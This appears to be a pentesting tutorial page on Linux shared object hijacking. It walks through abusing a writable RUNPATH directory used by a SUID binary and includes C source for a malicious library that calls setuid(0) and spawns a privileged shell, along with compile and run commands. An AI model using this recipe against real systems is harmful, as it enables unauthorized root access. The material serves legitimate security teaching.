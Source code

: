 # Shared Object Hijacking

Shared Object Hijacking is a technique where a binary loads a malicious shared object instead of the legitimate one due to misconfigured load paths like `RUNPATH`.

**Steps to Exploit:**

![image.png](<../../../.gitbook/assets/image (25).png>)

**Identify a SUID binary:**

```bash
ls -la payroll
```

**Check its linked libraries using `ldd`:**

```bash
ldd payroll
```

<figure><img src="../../../.gitbook/assets/image 1 (12).png" alt=""><figcaption></figcaption></figure>

**Look for non-standard paths (e.g., `/development`) and check if the folder is writable:**

```bash
ls -lad /development
```

<figure><img src="../../../.gitbook/assets/image 2 (9).png" alt=""><figcaption></figcaption></figure>

**Verify the RUNPATH using `readelf`:**

```bash
readelf -d payroll | grep PATH
```

**Check for missing function symbols when copying a standard library:**

```bash
cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
./payroll
```

**Create a malicious shared object with the missing function (`dbquery`):**

```c
// src.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
}
```

**Compile the malicious library:**

```bash
gcc src.c -fPIC -shared -o /development/libshared.so
```

**Execute the vulnerable binary:**

```bash
./payroll
```

<figure><img src="../../../.gitbook/assets/image 3 (7).png" alt=""><figcaption></figcaption></figure>
